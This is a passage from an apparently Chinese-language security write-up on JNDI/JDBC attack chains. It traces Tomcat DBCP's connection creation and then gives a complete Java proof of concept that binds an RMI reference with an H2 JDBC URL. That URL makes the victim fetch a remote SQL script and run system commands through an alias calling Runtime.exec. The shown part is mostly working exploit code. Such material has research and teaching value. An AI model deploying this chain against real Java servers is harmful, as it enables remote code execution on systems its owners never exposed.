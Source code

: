 跟进方法，调用了`this.createPoolableConnectionFactory`，最后在`PoolableConnectionFactory#makeObject`方法中调用` this.connectionFactory.createConnection()`进行连接的创建，最后触发了JDBC attack攻击链

![image-20220808125828643](README/image-20220808125828643.png)

![image-20220808125930492](README/image-20220808125930492.png)

###### JDBC attack's H2_RunScript_INIT poc

条件：

1. 能出网
2. 有h2数据库依赖

```java
public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
    Registry registry = LocateRegistry.createRegistry(1099);
    String JDBC_URL = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8888/poc.sql'";
    ResourceRef ref = new ResourceRef("javax.sql.DataSource", null, "", "",
            true, "org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory", null);
    ref.add(new StringRefAddr("driverClassName", "org.h2.Driver"));
    ref.add(new StringRefAddr("url", JDBC_URL));
    ref.add(new StringRefAddr("username", "root"));
    ref.add(new StringRefAddr("password", "root"));
    ref.add(new StringRefAddr("initialSize", "1"));
    ReferenceWrapper referenceWraper = new ReferenceWrapper(ref);
    registry.bind("test", referenceWraper);
}

//poc.sql
CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);}';CALL EXEC ('calc')
```
